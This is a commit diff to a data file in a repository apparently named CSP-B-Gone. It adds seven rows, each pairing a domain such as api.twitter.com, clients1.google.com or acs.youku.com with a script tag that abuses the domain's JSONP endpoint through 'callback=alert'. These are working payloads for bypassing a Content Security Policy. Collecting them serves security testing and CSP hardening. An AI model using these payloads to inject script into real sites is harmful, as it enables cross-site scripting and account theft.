

Before and after one commit to ACK-J/CSP-B-Gone, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Update data.tsv
added twitter, youku, client1.google.com, skype, and disqus

```diff
--- a/data.tsv
+++ b/data.tsv
+row 1880: autocomplete.travelpayouts.com <script src="https://autocomplete.travelpayouts.com/avia?term=a&callback=alert"></script>
+row 1881: links.services.disqus.com <script src="http://links.services.disqus.com/api/ping?format=jsonp&key=cfdfcf52dffd0a702a61bad27507376d&loc=http%3A%2F%2Fabcnews.go.com%2Fblogs%2Fhealth%2F2013%2F03%2F21%2F1-in-10-u-s-deaths-blamed-on-salt%2F&subId=2329827&v=1&jsonp=alert"></script>
+row 1882: tr.indeed.com <script src="https://tr.indeed.com/m/newjobs?q=&l=&ts=1734358724474&callback=alert"></script>
+row 1883: acs.youku.com <script src="https://acs.youku.com/h5/mtop.youku.playlog.open.get/1.0/?jsv=2.6.1&appKey=24679788&t=1734359327631&sign=6b8f8b6abb27c68582606eed336c887d&api=mtop.youku.playlog.open.get&v=1.0&dataType=jsonp&jsonpIncPrefix=headerRecord1734359327618&type=jsonp&callback=alert&data={%22nlid%22%3A%22XlQcF5xQrCcCAWoLKdGqIOhS%22%2C%22uid%22%3A%22%22%2C%22pageLength%22%3A100%2C%22timestamp%22%3A%221734359327617%22%2C%22appKey%22%3A%22qPbb2hfIYugHjMaj%22%2C%22appName%22%3A%22pc%22%2C%22hwClass%22%3A1%2C%22deviceName%22%3A%22web%22%2C%22isPlayController%22%3A1%2C%22ccode%22%3A%220502%22%2C%22clientDrmAbility%22%3A3}"></script>
+row 1884: clients1.google.com <script src="http://clients1.google.com/complete/search?callback=alert&q=PIC&nolabels=t&client=youtube&ds=yt&_=1361575554883"></script>
+row 1885: api.twitter.com <script src="https://api.twitter.com/1/statuses/oembed.json?url=https:%2F%2Ftwitter.com%2FMartina%2Fstatus%2F867710263654580226&callback=alert&_=1496363308445"></script>
+row 1886: a.config.skype.com <script src="https://a.config.skype.com/config/v1/SkypeLyncWebExperience/905_1.2.5.0?apikey=shareButton&fingerprint=0487c2fb-967c-4d8d-9635-75249326f72e&callback=alert"></script>
```
